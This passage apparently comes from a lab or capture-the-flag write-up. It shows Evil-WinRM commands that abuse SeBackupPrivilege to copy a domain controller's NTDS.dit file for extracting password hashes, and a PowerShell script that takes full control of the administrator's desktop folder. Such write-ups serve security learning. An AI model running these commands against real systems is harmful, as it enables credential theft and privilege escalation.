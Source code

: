 Importing dll’s:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Import-Module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Import-Module .\SeBackupPrivilegeCmdLets.dll
```
Now we can use **Copy-FileSeBackupPrivilege** to copy files from our Shadow drive to the desired directory:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Copy-FileSeBackupPrivilege w:\Windows\NTDS\ntds.dit C:\Users\svc_backup\Documents\ntds.dit
```
> NOTE: In the case of a DC, the privilege only allows you to make **BACKUPS NOT COPIES**. In a standalone system, we can make copies of the files (SAM and SYSTEM hive). In the case of DC, the method differs as now we need to make backups of the **NTDS.dit** and **SYSTEM** files to extract the password hash of users.
## Additional
There is another way that still involves the **SeBackupPrivilege** and **SeRestorePrivilege**. It’s to modify **ACL** and grant myself *full access* to the file/folder I specified using [this PowerShell script](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1). In the following, I use that script to own the entire admin’s desktop folder.
```console
*Evil-WinRM* PS C:\Users\svc-printer\chrp> Import-Module .\Acl-FullControl.ps1
*Evil-WinRM* PS C:\Users\svc-printer\chrp> Acl-FullControl -user return\svc-printer -path c:\users\administrator\desktop
```
The [anti script](https://github.com/fahmifj/AAD-scripts/blob/main/Acl-RevokeFullControl.ps1) to revert
```console
*Evil-WinRM* PS C:\Users\svc-printer\chrp> Acl-RevokeFullControl -User return\svc-printer -Path C:\users\administrator\desktop
```
